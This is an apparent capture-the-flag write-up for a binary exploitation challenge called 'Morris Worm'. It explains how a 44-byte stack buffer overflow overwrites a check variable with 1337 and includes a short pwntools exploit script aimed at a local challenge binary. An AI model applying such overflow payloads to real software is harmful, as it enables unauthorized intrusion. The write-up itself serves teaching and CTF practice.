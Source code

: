 # Morris Worm
## Challenge
This challenge reads 1337 characters from **stdin** and stores them in an **array of chars**, it then checks if a variable is 1337 and if so we get the flag, the problem is that the value of the variable is 69 and it doesn't change.
The array of chars, however, is only **44 bytes long** and we can write more than that, so it is vulnerable to **buffer-overflow**, we just need to fill the array and then insert 1337 using [p32](https://docs.pwntools.com/en/stable/util/packing.html) to correctly **overwrite the variable**.
It is also possible to exploit the challenge using a ret2win attack, leveraging the buffer overflow vulnerability and the absence of PIE (Position Independent Executable) in the binary.

## Solution
```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Binary Exploitation